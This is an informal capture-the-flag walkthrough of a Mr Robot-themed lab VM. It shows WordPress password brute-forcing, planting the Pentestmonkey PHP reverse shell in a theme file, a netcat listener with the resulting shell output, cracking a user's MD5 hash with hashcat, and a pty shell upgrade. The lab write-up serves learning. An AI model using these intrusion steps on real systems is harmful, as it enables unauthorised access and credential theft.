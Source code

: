 # flag 1
### the startup process
When starting any CTF like this one i scan the VM with nmap to see if there is any open services.
Upon search port 80 was open to a HTTP service
When you go to the IP:80 you will be greeted with a mr robot themed shell with afew commands you can use. 
I tried each of these and beyond the cool visuals got nothing from them.

### What i did next
I then decided to scan the directory of the site using dirsearch.
Upon completion i saw the site was using robots.txt which is a file that excludes items from webcrawling.
After opening robots.txt you will see the file name for the first flag which was then found.
You will also find a .dir file containing what i think is possible usernames to the website

# flag 2
For the next step i investigated the wordpress login i found during the dirsearch
I used burpsuite with the dictionary found during flag one and got the username "elliot"
I then used the found username with the same dic file

### tools used
I could of continued to use burpsuite but its slow for such a large dataset.
I decided to use WPScan as it allows for faster password attacks since its not limited 

After the password wordlist had ran for abit i got the password.

Once i had access to the wordpress i needed to find a way to get a shell on my terminal from the vulnerable machine

For this i used a PHP reverse shell exploit from Pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
I inserted the code into the archive.php site and then when i go to this site the exploit will auto execute giving me a reverse shell
First i set up the listener
```
└─$ nc -nvlp 8080      
listening on [any] 8080 ...
```

then when i went to the site i got the execution of exploit and a shell in my terminal 
```
connect to [IP] from (UNKNOWN) [IP] 50319
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:45:12 up 13:26,  0 users,  load average: 0.00, 0.01, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### what i found using the reverse shell
in the /home/robot/ directory is two files
key-2-of-3.txt
and a password hash

I cannot access the key without the correct permissions so for this we will need to crack the password hash.
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
is the password has for robots user
For the cracking of the hash i used hashcat with the following command

```
hashcat -m 0 /home/kali/Desktop/hash /home/kali/Desktop/wordlists/rockyou.txt
```
That successfully gives you the password

### the trouble
After this i was stuck on how to login to the user i had now got the password for.
I tried to SSH into it but couldnt get passed a connection fail
This is when someone suggested i needed to include the bin/bash folder so using python i did this with the command
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
after this i could login as robot by doing 
```
su robot
```



